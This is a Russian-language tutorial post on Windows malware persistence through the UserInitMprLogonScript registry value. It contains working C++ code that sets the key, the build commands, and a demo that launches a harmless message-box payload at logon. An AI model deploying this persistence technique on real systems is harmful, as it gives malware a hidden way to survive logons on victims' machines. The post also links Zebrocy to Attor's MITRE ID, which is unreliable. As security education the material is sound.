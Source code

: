 \newpage
\subsection{86. разработка вредоносного ПО: закрепление (persistence) - часть 20. UserInitMprLogonScript (скрипт входа в систему). Простой пример на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

![pers](./images/82/2022-12-11_18-11.png){width="80%"}    

Этот пост основан на моем собственном исследовании одной из интересных техник закрепления вредоносного ПО: через значение `UserInitMprLogonScript`.     

### UserInitMprLogonScript

Windows позволяет выполнять скрипты входа в систему при каждом входе пользователя или группы пользователей. Добавление пути к скрипту в реестр `HKCU\Environment\UserInitMprLogonScript` позволяет это сделать. Таким образом, для установления закрепления злоумышленники могут использовать сценарии входа в систему Windows, которые выполняются автоматически при инициализации сеанса.      

### практический пример

Рассмотрим практический пример. Прежде всего, как обычно, создаем "вредоносное" приложение. Для простоты, как обычно, это приложение `meow-meow` messagebox (`hack.cpp`):  

```cpp
/*
hack.cpp
вредоносное приложение для закрепления в Windows
aвтор: @cocomelonc
https://cocomelonc.github.io/malware/2022/12/09/malware-pers-20.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR 
lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

А затем просто создаем скрипт для закрепления (`pers.cpp`):      


```cpp
/*
pers.cpp
windows persistence via
setting UserInitMprLogonScript value
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/12/09/malware-pers-20.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // env
  const char* env = "Environment";

  // evil app
  const char* exe = "Z:\\2022-12-09-malware-pers-20\\hack.exe";

  // environment
  LONG res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR)env, 0 , KEY_WRITE, 
  &hkey);
  if (res == ERROR_SUCCESS) {
    // update registry key value
    // reg add "HKEY_CURRENT_USER\Environment" /v "UserInitMprLogonScript" /t 
    // REG_SZ /d "...\hack.exe" /f
    RegSetValueEx(hkey, (LPCSTR)"UserInitMprLogonScript", 0, REG_SZ, 
    (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }

  return 0;
}
```

Как видите, логика проста. Просто установим значение ключа `UserInitMprLogonScript` в `HKCU\Environment` на полный путь к нашей "вредоносной программе" - `Z:\\2022-12-09-malware-pers-20\hack.exe`.

### demo

Давайте посмотрим, как все работает на практике. Прежде всего, проверяем реестр:      

```powershell
reg query "HKCU\Environment" /s
```

![pers](./images/82/2022-12-11_17-57.png){width="80%"}    


Затем компилируем наше "вредоносное" ПО на машине атакующего (`kali`):    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/82/2022-12-11_17-54.png){width="80%"}    

И для проверки корректности пробуем запустить `hack.exe` на машине жертвы (`Windows 10 x64` в моем случае):    

```powershell
.\hack.exe
```

![pers](./images/82/2022-12-11_18-00.png){width="80%"}    

Как можно видеть, наше "вредоносное" ПО работает идеально.    

На следующем шаге компилируем скрипт закрепления на машине атакующего:    

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/82/2022-12-11_17-55.png){width="80%"}    

Запускаем его на машине жертвы:    

```powershell
.\pers.exe
```

Затем снова проверяем значения ключей реестра:        

```powershell
reg query "HKCU\Environment" /s
```

![pers](./images/82/2022-12-11_18-06.png){width="80%"}    

Как видно, ключ (`UserInitMprLogonScript`) установлен.    

Теперь выходим из системы и входим снова:     

![pers](./images/82/2022-12-11_18-07.png){width="80%"}    

![pers](./images/82/2022-12-11_18-07_1.png){width="80%"}    

И через несколько миллисекунд появляется наш `meow-meow` messagebox:     

![pers](./images/82/2022-12-11_18-08.png){width="80%"}    

Затем, если открыть Process Hacker и проверить свойства `hack.exe`:     

![pers](./images/82/2022-12-11_18-09.png){width="80%"}    

![pers](./images/82/2022-12-11_18-10.png){width="80%"}    

мы видим, что родительский процесс - это "несуществующий" (non-existent) процесс.    

Если вы хотя бы немного изучали внутреннюю структуру Windows, то знаете, что существуют процессы, у которых родительский процесс отображается как "несуществующий". Например, Windows Explorer - `explorer.exe`. Родительским процессом является `userinit.exe` или `winlogon.exe`, но может быть и другой `.exe`, использующий `explorer.exe`. Родительский процесс отображается как `<Non-existent Process>`, так как `userinit.exe` завершает свою работу. Другой пример - Windows Logon - `winlogon.exe`, у которого родительский процесс "не существует", так как `smss.exe` завершает выполнение.    

Если проверить свойства `hack.exe` через [Sysinternals Process Explorer](https://docs.microsoft.com/en-us/sysinternals/downloads/process-explorer), можно увидеть значение "Autostart Location":    

![pers](./images/82/2022-12-11_20-05.png){width="80%"}    

Все сработало идеально! =^..^=    

После завершения эксперимента удаляем ключ:    

```powershell
Remove-ItemProperty -Path "HKCU:\Environment" -Name "UserInitMprLogonScript"
```

![pers](./images/82/2022-12-19_18-00.png){width="80%"}    

Этот метод закрепления использовался группой [APT28](https://attack.mitre.org/groups/G0007), а также вредоносными программами [Attor](https://attack.mitre.org/software/S0438) и [Zebrocy](https://attack.mitre.org/software/S0438).    

Надеюсь, этот пост повысит осведомленность синих команд об этой интересной технике и добавит оружие в арсенал красных команд.

[Sysinternals Process Explorer](https://docs.microsoft.com/en-us/sysinternals/downloads/process-explorer)        
[Malware persistence: part 1](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html)       
[APT28](https://attack.mitre.org/groups/G0007)      
[Attor](https://attack.mitre.org/software/S0438)        
[Zebrocy (Trojan)](https://attack.mitre.org/software/S0438)       
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2022-12-09-malware-pers-20)     
